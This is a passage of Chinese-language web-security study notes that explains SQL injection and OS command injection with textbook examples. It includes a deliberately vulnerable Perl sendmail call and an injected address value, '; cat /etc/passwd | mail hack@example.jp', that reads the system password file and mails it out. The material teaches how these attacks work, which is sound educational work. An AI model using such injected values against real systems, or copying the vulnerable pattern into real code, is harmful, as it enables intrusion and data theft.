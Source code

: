 > SELECT * FROM bookTbl WHERE author = '上野宣' and flag = 1; 

![1565836939002](images/1565836939002.png)

被修改的SQL语句：

> SELECT * FROM bookTbl WHERE author ='上野宣' - -' and flag=1; 

SQL语句中的 -- 之后全视为注释。即，and flag=1 这个条件被自动忽略了。 

- ###### OS 命令注入

OS 命令注入攻击（OS Command Injection）可以从 Web 应用中通过 Shell 来调用操作系统命令。倘若调用 Shell 时存在疏漏，就可以执行插入的非法 OS 命令。 

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系统的命令行启动程序。也就是说，通过 OS 注入攻击可执行 OS 上安装着的各种程序。 

正常处理网页上表单：

> my $adr = $q->param('mailaddress');
>
> open(MAIL, "| /usr/sbin/sendmail $adr");
>
> print MAIL "From: info@example.com\n"; 

程序中的 open 函数会调用 sendmail 命令发送邮件，而指定的邮件发送地址即 $adr 的值。 

攻击者将下面的值指定作为邮件地址。 

> ; cat /etc/passwd | mail hack@example.jp 

程序接收该值，构成以下的命令组合。 

> | /usr/sbin/sendmail **; cat /etc/passwd** | **mail hack@example.jp** 
